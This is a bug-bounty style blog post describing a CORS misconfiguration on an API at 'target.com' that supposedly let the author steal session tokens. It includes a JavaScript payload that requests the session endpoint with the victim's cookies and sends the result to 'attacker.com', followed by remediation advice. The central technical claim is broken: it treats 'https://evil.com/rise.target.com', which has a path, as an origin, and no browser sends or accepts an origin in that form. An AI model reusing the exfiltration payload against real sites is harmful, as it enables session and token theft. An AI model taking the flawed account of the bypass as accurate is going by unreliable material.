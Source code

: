 ```yaml
---
title: Auth Token Theft via CORS Misconfiguration
description: A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and `Access-Control-Allow-Credentials: true`.
date: 2025-03-08
tags:
  - cors
  - auth-token-theft
  - access-control
  - bug-bounty
  - web-security
---
```



# How a CORS Misconfiguration Could Have Let Me Steal Auth Tokens

In this post, I’ll walk you through a **CORS misconfiguration vulnerability** I discovered that allowed me to **steal authentication tokens**, **impersonate users**, and access sensitive data — all with a few lines of JavaScript. This bug stemmed from a subtle but dangerous CORS policy misconfiguration.

---

## 🧠 Background: What Is CORS?

**CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts how websites from one origin can interact with resources from another. If not configured properly, it can unintentionally expose APIs to malicious sites.

---

## 🚩 The Vulnerability

The API I tested had the following CORS behavior:

* It allowed any origin that **ended with** a trusted subdomain like `rise.target.com`
* It also responded with:

  ```
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Origin: https://evil.com/rise.target.com
  ```

That meant **any malicious domain** that crafted a similar subdomain (e.g., `https://evil.com/rise.target.com`) could **bypass origin checks** and access sensitive API responses.

---

## 🔬 Testing the Exploit

I hosted a malicious site at:

```
https://evil.com/rise.target.com
```

Then, I injected this simple payload:

```javascript
fetch("https://id.target.com/v1/session/rise/switch/", {
  method: "GET",
  credentials: "include" // Sends victim's cookies
})
.then(res => res.json())
.then(data => {
  // Exfiltrate session data to my server
  fetch("https://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data)));
});
```

When a logged-in victim visited my page, their browser:

* Automatically sent their session cookie (`HERMES_ID`)
* The API accepted my domain (since it *looked* trusted)
* The response included **valid tokens and user metadata**
* The data was silently exfiltrated to my server

---

## 📸 Evidence

Here’s a look at what I received:

* ✅ Valid `access_token`
* 🧑‍💼 User profile information
* 🔐 Authenticated session context

![POC](/assets/writeups/2.png)

---

## 🛡️ Fix Recommendations

To fix this kind of issue, here’s what I recommended:

### 1. **Strict CORS Origin Checks**

Only allow exact origins:

```http
Access-Control-Allow-Origin: https://rise.target.com
```

Avoid dangerous patterns like:

```js
if (origin.endsWith('rise.target.com')) // ❌
```

### 2. **Secure Cookies with SameSite**

Use this to block cross-origin cookies:

```http
Set-Cookie: HERMES_ID=abc; Secure; HttpOnly; SameSite=Strict
```

### 3. **Avoid Allowing Credentials Loosely**

Only use:

```http
Access-Control-Allow-Credentials: true
```

...if you’re absolutely sure the origin is trusted.

---

## 🎯 Impact

This misconfiguration could allow:

* Complete **account takeover**
* Unauthorized **GraphQL or API access**
* Exploitation from **any malicious website** with a spoofed subdomain

---

## 🔚 Final Thoughts

CORS misconfigurations are subtle and often overlooked — but their impact can be critical. This vulnerability didn’t need a single line of backend code to be touched by the attacker. Just a cookie, a misconfigured header, and a clever origin were enough.

If you're building or reviewing APIs, **always test your CORS logic** under real attack scenarios. What seems safe on paper might leak tokens in practice.

---

💬 Have you seen similar CORS issues in the wild? Let's connect on [Twitter](https://twitter.com/00xmora), or [LinkedIn](https://linkedin.com/in/00xmora).

---